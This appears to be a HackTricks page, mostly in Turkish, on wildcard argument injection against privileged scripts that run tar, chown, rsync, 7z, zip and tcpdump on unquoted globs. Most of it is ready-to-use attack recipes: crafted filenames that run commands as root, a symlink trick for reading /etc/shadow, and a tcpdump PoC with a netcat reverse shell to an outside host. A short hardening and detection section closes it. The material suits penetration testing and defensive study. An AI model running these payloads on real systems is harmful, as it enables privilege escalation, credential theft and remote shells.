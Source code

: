 # Wildcards Spare Tricks

{{#include ../../banners/hacktricks-training.md}}

> Wildcard (aka *glob*) **argüman enjeksiyonu**, ayrıcalıklı bir betik `tar`, `chown`, `rsync`, `zip`, `7z`, … gibi bir Unix ikili dosyasını, tırnak işareti olmadan bir joker karakterle `*` çalıştırdığında gerçekleşir. 
> Shell, joker karakteri **ikili dosyayı çalıştırmadan önce** genişlettiğinden, çalışma dizininde dosya oluşturabilen bir saldırgan, `-` ile başlayan dosya adları oluşturabilir, böylece bunlar **veri yerine seçenekler** olarak yorumlanır ve etkili bir şekilde rastgele bayraklar veya hatta komutlar gizlenebilir. 
> Bu sayfa, 2023-2025 için en yararlı ilkelere, son araştırmalara ve modern tespitlere dair bilgileri toplar.

## chown / chmod

`--reference` bayrağını kötüye kullanarak **rastgele bir dosyanın sahibi/grubu veya izin bitlerini kopyalayabilirsiniz**:
```bash
# attacker-controlled directory
touch "--reference=/root/secret``file"   # ← filename becomes an argument
```
Kök daha sonra şöyle bir şey çalıştırdığında:
```bash
chown -R alice:alice *.php
chmod -R 644 *.php
```
`--reference=/root/secret``file` enjekte edilir, bu da `/root/secret``file`'ın sahiplik/izinlerini *tüm* eşleşen dosyaların miras almasına neden olur.

*PoC & araç*: [`wildpwn`](https://github.com/localh0t/wildpwn) (birleşik saldırı).
Ayrıca detaylar için klasik DefenseCode makalesine bakın.

---

## tar

### GNU tar (Linux, *BSD, busybox-full)

**checkpoint** özelliğini kötüye kullanarak rastgele komutlar çalıştırın:
```bash
# attacker-controlled directory
echo 'echo pwned > /tmp/pwn' > shell.sh
chmod +x shell.sh
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
```
Bir kez root çalıştırdığında e.g. `tar -czf /root/backup.tgz *`, `shell.sh` root olarak çalıştırılır.

### bsdtar / macOS 14+

Son macOS'taki varsayılan `tar` (`libarchive` tabanlı) `--checkpoint`'i *uygulamaz*, ancak dış bir sıkıştırıcı belirtmenize olanak tanıyan **--use-compress-program** bayrağı ile kod yürütme elde edebilirsiniz.
```bash
# macOS example
touch "--use-compress-program=/bin/sh"
```
Bir ayrıcalıklı betik `tar -cf backup.tar *` çalıştırdığında, `/bin/sh` başlatılacaktır.

---

## rsync

`rsync`, uzaktan kabuğu veya hatta uzaktan ikili dosyayı `-e` veya `--rsync-path` ile başlayan komut satırı bayrakları aracılığıyla geçersiz kılmanıza olanak tanır:
```bash
# attacker-controlled directory
touch "-e sh shell.sh"        # -e <cmd> => use <cmd> instead of ssh
```
Eğer root daha sonra dizini `rsync -az * backup:/srv/` ile arşivlerse, enjekte edilen bayrak uzaktaki tarafınızda shell'inizi başlatır.

*PoC*: [`wildpwn`](https://github.com/localh0t/wildpwn) (`rsync` modu).

---

## 7-Zip / 7z / 7za

Ayrıca, ayrıcalıklı script *savunmacı* bir şekilde joker karakteri `--` ile öne eklese bile (seçenek ayrıştırmasını durdurmak için), 7-Zip formatı **dosya liste dosyalarını** dosya adını `@` ile öne ekleyerek destekler. Bunu bir symlink ile birleştirmek, *rastgele dosyaları dışarı sızdırmanıza* olanak tanır:
```bash
# directory writable by low-priv user
cd /path/controlled
ln -s /etc/shadow   root.txt      # file we want to read
touch @root.txt                  # tells 7z to use root.txt as file list
```
Eğer root, şöyle bir şey çalıştırırsa:
```bash
7za a /backup/`date +%F`.7z -t7z -snl -- *
```
7-Zip, `root.txt` dosyasını (→ `/etc/shadow`) bir dosya listesi olarak okumaya çalışacak ve çıkacaktır, **içeriği stderr'ye yazdıracaktır**.

---

## zip

`zip`, arşiv test edileceği zaman sistem kabuğuna *kelimesi kelimesine* iletilen `--unzip-command` bayrağını destekler:
```bash
zip result.zip files -T --unzip-command "sh -c id"
```
Inject the flag via a crafted filename and wait for the privileged backup script to call `zip -T` (test archive) on the resulting file.

---

## Ekstra ikili dosyalar için wildcard enjeksiyonuna karşı hassasiyet (2023-2025 hızlı listesi)

Aşağıdaki komutlar modern CTF'lerde ve gerçek ortamlarda kötüye kullanılmıştır. Payload her zaman daha sonra bir wildcard ile işlenecek yazılabilir bir dizin içinde bir *dosya adı* olarak oluşturulur:

| Binary | Flag to abuse | Effect |
| --- | --- | --- |
| `bsdtar` | `--newer-mtime=@<epoch>` → arbitrary `@file` | Dosya içeriğini oku |
| `flock` | `-c <cmd>` | Komutu çalıştır |
| `git`   | `-c core.sshCommand=<cmd>` | SSH üzerinden git ile komut çalıştırma |
| `scp`   | `-S <cmd>` | ssh yerine keyfi bir program başlat |

Bu primitifler *tar/rsync/zip* klasiklerinden daha az yaygındır ama avlanırken kontrol edilmeye değer.

---

## tcpdump döngü kancaları (-G/-W/-z): argv enjeksiyonu ile RCE

Kısıtlı bir shell veya satıcı sargısı, kullanıcı kontrolündeki alanları (örneğin, "dosya adı" parametresi) katlayarak bir `tcpdump` komut satırı oluşturduğunda, ekstra `tcpdump` bayraklarını gizlice sokabilirsiniz. `-G` (zaman tabanlı döngü), `-W` (dosya sayısını sınırlama) ve `-z <cmd>` (döngü sonrası komut) kombinasyonu, tcpdump'ı çalıştıran kullanıcı olarak keyfi komut çalıştırma sağlar (genellikle cihazlarda root).

Ön koşullar:

- `tcpdump`'a geçirilen `argv`'yi etkileyebilirsiniz (örneğin, `/debug/tcpdump --filter=... --file-name=<HERE>` aracılığıyla).
- Sargı, dosya adı alanındaki boşlukları veya `-` ile başlayan token'ları temizlemez.

Klasik PoC (yazılabilir bir yoldan ters shell scripti çalıştırır):
```sh
# Reverse shell payload saved on the device (e.g., USB, tmpfs)
cat > /mnt/disk1_1/rce.sh <<'EOF'
#!/bin/sh
rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f|/bin/sh -i 2>&1|nc 192.0.2.10 4444 >/tmp/f
EOF
chmod +x /mnt/disk1_1/rce.sh

# Inject additional tcpdump flags via the unsafe "file name" field
/debug/tcpdump --filter="udp port 1234" \
--file-name="test -i any -W 1 -G 1 -z /mnt/disk1_1/rce.sh"

# On the attacker host
nc -6 -lvnp 4444 &
# Then send any packet that matches the BPF to force a rotation
printf x | nc -u -6 [victim_ipv6] 1234
```
Detaylar:

- `-G 1 -W 1` ilk eşleşen paket sonrası hemen döndürmeyi zorlar.
- `-z <cmd>` her döngüde bir kez post-rotate komutunu çalıştırır. Birçok yapı `<cmd> <savefile>` şeklinde çalıştırır. Eğer `<cmd>` bir script/yorumlayıcı ise, argüman işleme yükleminizle eşleştiğinden emin olun.

Kaldırılamayan medya varyantları:

- Dosya yazmak için başka bir ilkeliniz varsa (örneğin, çıktı yönlendirmesine izin veren ayrı bir komut sarmalayıcı), scriptinizi bilinen bir yola bırakın ve platform anlamına bağlı olarak `-z /bin/sh /path/script.sh` veya `-z /path/script.sh` komutunu tetikleyin.
- Bazı satıcı sarmalayıcıları, saldırganın kontrol edebileceği konumlara döner. Eğer döndürülen yolu etkileyebiliyorsanız (sembolik bağlantı/dizin geçişi), `-z`'yi tamamen kontrol ettiğiniz içeriği çalıştıracak şekilde yönlendirebilirsiniz.

Satıcılar için sertleştirme ipuçları:

- Kullanıcı kontrolündeki dizeleri `tcpdump`'a (veya herhangi bir araca) doğrudan geçmeyin, sıkı izin listeleri olmadan. Alıntı yapın ve doğrulayın.
- Sarmalayıcılarda `-z` işlevselliğini açığa çıkarmayın; tcpdump'ı sabit güvenli bir şablonla çalıştırın ve ek bayrakları tamamen yasaklayın.
- tcpdump ayrıcalıklarını düşürün (sadece cap_net_admin/cap_net_raw) veya AppArmor/SELinux kısıtlaması ile ayrıcalıksız bir kullanıcı altında çalıştırın.

## Tespit & Sertleştirme

1. **Kritik scriptlerde shell globbing'i devre dışı bırakın**: `set -f` (`set -o noglob`) joker karakter genişlemesini engeller.
2. **Argümanları alıntılayın veya kaçırın**: `tar -czf "$dst" -- *` *güvenli değildir* — `find . -type f -print0 | xargs -0 tar -czf "$dst"` kullanmayı tercih edin.
3. **Açık yollar**: `*` yerine `/var/www/html/*.log` kullanın, böylece saldırganlar `-` ile başlayan kardeş dosyalar oluşturamaz.
4. **En az ayrıcalık**: Yedekleme/bakım işlerini mümkün olduğunca root yerine ayrıcalıksız bir hizmet hesabı olarak çalıştırın.
5. **İzleme**: Elastic’in önceden oluşturulmuş kuralı *Wildcard Injection ile Potansiyel Shell* `tar --checkpoint=*`, `rsync -e*` veya `zip --unzip-command` ile hemen ardından bir shell çocuk süreci arar. EQL sorgusu diğer EDR'ler için uyarlanabilir.

---

## Referanslar

* Elastic Security – Potansiyel Shell ile Wildcard Injection Tespit Edildi kuralı (son güncelleme 2025)
* Rutger Flohil – “macOS — Tar wildcard injection” (18 Aralık 2024)
* GTFOBins – [tcpdump](https://gtfobins.github.io/gtfobins/tcpdump/)
* FiberGateway GR241AG – [Full Exploit Chain](https://r0ny.net/FiberGateway-GR241AG-Full-Exploit-Chain/)

{{#include ../../banners/hacktricks-training.md}}
